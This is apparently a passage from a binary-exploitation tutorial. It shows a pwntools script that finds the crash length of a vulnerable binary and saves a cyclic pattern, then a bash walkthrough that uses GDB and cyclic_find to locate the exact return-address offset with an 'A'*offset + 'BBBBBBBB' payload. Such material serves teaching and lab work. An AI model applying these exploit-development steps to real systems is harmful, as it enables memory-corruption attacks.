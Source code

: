 ```python
        if test_crash(binary_path, length):
            return length
    
    log.warning("No crash point found in tested range")
    return None

# Example usage
if __name__ == "__main__":
    binary = "./vulnerable_binary"
    crash_point = find_crash_point(binary)
    
    if crash_point:
        log.success(f"Binary crashes at approximately {crash_point} bytes")
        
        # Generate pattern for detailed analysis
        pattern = generate_pattern(crash_point)
        with open("crash_pattern.txt", "wb") as f:
            f.write(pattern)
        
        log.info("Crash pattern saved to crash_pattern.txt")
        log.info("Use this pattern with GDB to find exact offset")
```

### Precise Offset Finding

```bash
# File: find_offset.sh
#!/bin/bash

BINARY=$1
PATTERN_FILE="crash_pattern.txt"

echo "=== Finding Exact Offset ==="
echo "1. Start GDB with pattern"
echo "   gdb $BINARY"
echo
echo "2. In GDB, run with pattern:"
echo "   (gdb) run < $PATTERN_FILE"
echo
echo "3. After crash, check RSP:"
echo "   (gdb) info registers"
echo "   (gdb) x/gx \$rsp"
echo
echo "4. Find pattern offset:"
echo "   Take the value from RSP and use:"
echo "   python3 -c \"from pwn import *; print(cyclic_find(0x<VALUE>))\""
echo
echo "5. Verify offset:"
echo "   Create payload: 'A' * offset + 'BBBBBBBB'"
echo "   RSP should contain 0x4242424242424242"
```
